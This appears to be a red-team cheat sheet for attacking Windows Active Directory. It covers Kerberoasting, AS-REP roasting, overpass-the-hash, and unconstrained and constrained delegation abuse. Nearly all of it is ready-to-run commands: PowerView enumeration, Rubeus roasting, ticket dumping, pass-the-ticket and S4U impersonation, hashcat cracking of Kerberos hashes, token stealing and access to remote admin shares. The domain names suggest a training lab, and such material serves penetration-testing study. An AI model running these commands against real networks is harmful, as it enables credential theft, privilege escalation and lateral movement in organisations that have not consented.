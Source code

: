 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe  kerberoast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
powershell Get-DomainComputer -Unconstrained -Properties DnsHostName
powershell Get-DomainGPOLocalGroup
powershell Get-DomainGroupMember -identity 'Workstation Admins' -recurse | select -exp membername 
powershell Get-DomainGroupMember -identity 'Helpdesk\Admins' -recurse | select -exp membername  
powershell Get-DomainOU -GPLink '{66465373-16CB-4F96-BD3A-12AE7D2C2371}' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
powershell Find-DomainUserLocation -userIdentity 'Workstation\Admins'  

execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be # krbtgt/insomnia.ninja along with LUID
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x21d8e17 /ticket:[...snip...]
steal_token 4652
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
powershell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo 
powershell Get-DomainComputer -TrustedToAuth | select -exp dnshostname 
powershell Get-DomainComputer -TrustedToAuth -Properties distinguishedname,msds-allowedtodelegateto,useraccountcontrol -Verbose | fl 
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo #To find what services it could delegate for
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:JOHN-PC$ /msdsspn:cifs/John-PC.acmebank.local /ticket:
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x239b995 /ticket:[...snip...]
steal_token 3420
ls \\fs-1.cyberbotic.io\c$
```


